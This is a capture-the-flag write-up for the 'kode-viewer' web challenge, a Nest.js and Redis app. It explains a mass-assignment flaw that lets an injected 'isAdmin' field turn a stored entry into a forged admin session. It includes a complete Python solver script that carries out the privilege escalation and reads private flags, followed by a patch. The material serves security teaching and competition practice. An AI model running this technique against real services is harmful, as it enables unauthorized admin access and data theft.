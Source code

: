 ```yaml
---
title: kode-viewer
icon: Globe
---
```


### Description

Elevate your kode-share experience with kode-viewer.

by vidner

***

### Analysis

We are given full source-code of a website built using Nest.js. From the `docker-compose.yml` we can infer that the database used for this challenge is Redis.

```yaml
services:
  kode-viewer:
    build:
      context: .
      args:
        - PASSWORD=root
    ports:
      - '10000:3000'
    depends_on:
      - redis
    environment:
      - REDIS_HOST=redis
      - REDIS_PORT=6379
  redis:
    image: public.ecr.aws/docker/library/redis:alpine
    volumes:
      - ./redis-data:/data
```

From the `kode.services.ts` file, we could see that the `create` function uses the whole `payload` argument and expands them when sending it to the Redis database. This is dangerous since we can add new keys outside of the `KodeDTO` type. The `payload` is not checked against the `KodeDTO` type since types are only a suggestion in TypeScript, rather than a strict rule.

```typescript
// snip
  async create(email: string, payload: KodeDTO) {
    payload.kind = payload.kind ? 'private' : 'public';
    const key = `kode-${email}-${payload.name}-${payload.lang}-${payload.kind}`;
    return this.kv.set(key, { email, ...payload }, 1200);
  }
// snip
```

On the `list` function, we can see that we could only see our own kode if we are not an admin. But if we are an admin, we can see every kode on the database. So we would probably want to be an admin to get the flag.

```typescript
// snip
async list(user: Session) {
    const kodes = user.isAdmin
      ? await this.kv.find('kode-*')
      : await this.kv.find(`kode-${user.email}-*`);
    return this.parse(kodes);
  }
// snip
```

### Solution

To somehow overwrite the user, we need to look at how the session is implemented. The session token is just a random UUIDv4 and no sanitization is applied to it.&#x20;

```typescript
// snip
    const sessionId = uuidv4();
    await this.kv.set(sessionId, user, 1800);
// snip
```

Therefore, we can use a kode ID as a session token, where that kode is injected with an `isAdmin` with a value of `True` . This exploit is possible because of Redis, where it does not have a concept of tables. This means that if different types of objects are using the same database, the key must be identifiable to that type and also checked rigorously to avoid collisions like what is happening in this case.

```python
r = requests.post(f"http://{ip}:{port}/kode",
                  data={
                     "name": "asdf", 
                     "lang": "python", 
                     "kode": "hello", 
                     "isAdmin": True
                  },
                  headers={"Cookie": f"session={session}"},
                  allow_redirects=False
)
```

Then, the new kode can be interpreted as a session token and we can get all the kode in the database. On the remote service, the kode containing the flag will start with `flag` as the name and will be set to private.

### Solver Script

```python
#!/usr/bin/env python3
import requests
import sys
import re

ip = sys.argv[1]
port = "10000"

EMAIL = "a@aa.com"
PASSWORD = "dasdnnsaldnsa"
PAYLOAD = "kode-a@aa.com-asdf-python-public"

r = requests.post(f"http://{ip}:{port}/auth/register", 
                  data={"email": EMAIL, "password": PASSWORD},
)

r = requests.post(f"http://{ip}:{port}/auth/login", 
                  data={"email": EMAIL, "password": PASSWORD},
                  allow_redirects=False
)

session = r.cookies["session"]
r = requests.post(f"http://{ip}:{port}/kode",
                  data={
                     "name": 
                     "asdf", 
                     "lang": "python", 
                     "kode": "hello", 
                     "isAdmin": True
                  },
                  headers={"Cookie": f"session={session}"},
                  allow_redirects=False
)

session = PAYLOAD
r = requests.get(
    f"http://{ip}:{port}/kode", 
    headers={"Cookie": f"session={session}"}
)

flags = r.text
flag_urls = re.findall(r"\".*flag_.*-private\"", flags)

for flag_url in flag_urls:
    flag_url = flag_url.replace("\"", "")
    r = requests.get(
        f"http://{ip}:{port}{flag_url}", 
        headers={"Cookie": f"session={session}"}
     )
    print(r.text, flush=True)
```

### Patch

Since the culprit is the `create` function, we can patch it to only insert the keys that is defined by `KodeDTO`.&#x20;

```typescript
// snip
  async create(email: string, payload: KodeDTO) {
    payload.kind = payload.kind ? 'private' : 'public';
    const key = `kode-${email}-${payload.name}-${payload.lang}-${payload.kind}`;
    return this.kv.set(key, { email, kind: payload.kind, name: payload.name, lang: payload.lang, kode: payload.kode }, 1200);
  }
// snip
```

But after the competition, we realized that there are other exploits other than ours. So the true patch is to not use Redis as your main database xD.

